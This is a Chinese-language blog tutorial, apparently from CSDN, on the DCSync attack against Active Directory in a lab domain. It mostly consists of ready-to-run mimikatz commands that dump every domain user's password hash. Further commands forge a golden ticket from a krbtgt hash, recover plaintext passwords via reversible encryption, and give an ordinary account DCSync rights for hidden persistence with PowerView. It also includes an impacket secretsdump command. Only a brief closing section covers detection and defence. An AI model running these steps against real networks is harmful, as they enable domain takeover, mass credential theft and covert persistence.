 **目录**

[DCSync](#t0 "DCSync")

[利用DCSync导出域内所有用户Hash](#t1 "利用DCSync导出域内所有用户Hash")

[使用黄金票据+DCSync导出域内所有用户的Hash](#t2 "使用黄金票据+DCSync导出域内所有用户的Hash")

[dcsync获取明文密码](#t3 "dcsync获取明文密码")

[使用DCSync权限维持](#t4 "使用DCSync权限维持")

[DCSync攻击检测与防御](#t5 "DCSync攻击检测与防御")

* * *

DCSync
------

在域中，不同的DC之间，每隔15分钟会进行一次域数据的同步。当一个DC（辅助DC）想从其他DC（主DC）获取数据时，辅助DC会向主DC发起一个GetNCChanges请求。请求的数据包括需要同步的数据。如果需要同步的数据比较多，则会重复上述过程。DCSync就是利用的这个原理，通过Directory Replication Service(DRS)服务的GetNCChanges接口向域控发起数据同步请求。

在DCSync功能出现之前，要想获得域用户的[哈希](https://so.csdn.net/so/search?q=%E5%93%88%E5%B8%8C&spm=1001.2101.3001.7020)，需要登录域控制器，在域控制器上执行代码才能获得域用户的哈希。2015年8月，新版的mimikatz增加了DCSync的功能，该功能可以模仿一个域控DC，从真实的域控中请求数据，如用户的哈希。该功能最大的特点就是可以实现不登录到域控而获取域控上的数据。

### 利用DCSync导出域内所有用户Hash

利用条件：获得以下任一的权限

*   Administrators组内的用户
*   Domain Admins组内的用户
*   Enterprise Admins组内的用户
*   域控制器的计算机帐户

```
privilege::debug       
#导出指定用户的信息(包括哈希)      
lsadump::dcsync /domain:xie.com /user:administrator           
lsadump::dcsync /domain:xie.com /user:administrator  /csv         
#导出所有用户的信息(包括哈希)      
lsadump::dcsync /domain:xie.com /all          
lsadump::dcsync /domain:xie.com /all /csv
```


![](https://img-blog.csdnimg.cn/20201010113349720.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 使用黄金票据+DCSync导出域内所有用户的Hash

前提是知道krbtgt用户的hash和域的sid。

*   krbtgt用户的哈希为：9ce0b40ed1caac7523a22d574b32deb2
*   域sid为：S-1-5-21-2189311154-2766837956-1982445477

我们在域内的一台普通主机上，以本地管理员权限登录执行mimikatz。或者在非域内的机器上，以本地管理员权限执行mimikatz，但是该机器的DNS服务器需设置为域控的ip。

```
#提权      
privilege::debug       
#生成黄金票据并导入      
kerberos::golden /user:administrator /domain:xie.com /sid:S-1-5-21-2189311154-2766837956-1982445477 /krbtgt:9ce0b40ed1caac7523a22d574b32deb2 /ptt       
#查看票据      
kerberos::list       1
#导出administrator用户的哈希      1
lsadump::dcsync /domain:xie.com /user:administrator  /csv
```


![](https://img-blog.csdnimg.cn/20201010130803306.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

相关文章：[票据传递攻击(Pass the Ticket,PtT)](https://xie1997.blog.csdn.net/article/details/92843080 "票据传递攻击(Pass the Ticket,PtT)")

### dcsync获取明文密码

有时候使用dcsync可以获取明文密码，这是因为帐户内使用可逆加密存储密码属性的关系，勾选这个属性后，用户再次更改密码会显示其明文密码，

当通过远程访问Internet身份验证服务（IAS）或使用CHAP（质询握手身份验证协议）身份验证时，必须启用使用可逆加密存储密码。 在Internet信息服务（IIS）中使用摘要式身份验证时，也需要启动此项。

powershell查找域内所有使用可逆加密存储的帐户

```
Get-ADUser  -Filter  ‘useraccountcontrol  -band  128’  -Properties useraccountcontrol  | Format-Table name, samaccountname,useraccountcontrol
```


**有几种方式可以来进行此项的修改：**

1、通过组策略

策略——> Windows设置——>安全性设置——>帐户策略——>密码策略——>使用可逆加密存储密码

2、通过使用Active Directory管理中心添加system项中Password Settings Container项内的密码策略，然后将其应用至指定组即可

![](https://img-blog.csdnimg.cn/20210221221842128.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

3、更改帐户的属性，勾选使用可逆加密存储密码选项

![](https://img-blog.csdnimg.cn/20210221221824431.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

使用ldap条件勾选其使用可逆加密存储属性的帐户

```
get-adobject -ldapfilter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=128))"       
Set-ADUser test -AllowReversiblePasswordEncryption $true
```


### 使用DCSync权限维持

当我们获得了域内管理员权限，如果我们能修改域内普通用户的权限，使其具有DCSync权限的话，那么普通域用户也能导出域内用户的哈希了！这样可以做一个隐蔽的权限维持！

那么如何修改域内普通用户的权限，使其具有DCSync权限呢？如下，向域内普通用户添加如下两条ACE(Access Control Entries)：

*   DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
*   DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)

我们可以使用Empire下的 powerview.ps1 脚本执行命令添加以上两条ACE。

```
#给域用户hack添加以上三条ACE      
Add-DomainObjectAcl -TargetIdentity "DC=xie,DC=com" -PrincipalIdentity hack -Rights DCSync -Verbose       
#给域用户hack删除以上三条ACE      
Remove-DomainObjectAcl -TargetIdentity "DC=xie,DC=com" -PrincipalIdentity hack -Rights DCSync -Verbose
```


![](https://img-blog.csdnimg.cn/20201012170317436.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**impacket攻击**

攻击机Kali可以不在域中

```
./secretsdump.py xie/hack:password@192.168.10.131 -dc-ip 192.168.10.131 -just-dc-user administrator
```


![](https://img-blog.csdnimg.cn/20201010144409411.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**mimikatz攻击** 

然后以hack用户登录域内主机(hack用户需要在该机器上是本地管理员权限，因为要执行mimikatz提权)，执行DCSync命令导出域内用户的哈希。

```
lsadump::dcsync /domain:xie.com /user:administrator  /csv
```


![](https://img-blog.csdnimg.cn/2020101014372311.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### DCSync攻击检测与防御

*   DCSync攻击检测：可以在网络设备上检测来自白名单以外的域控制器数据同步复制。
*   DCSync防御：给域控设置白名单，只允许白名单内的域控IP发起数据同步请求。

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[dcsync获取明文密码](https://app.yinxiang.com/fx/4073d2c1-79c9-41fe-bdee-0b9fd5a365e1 "dcsync获取明文密码")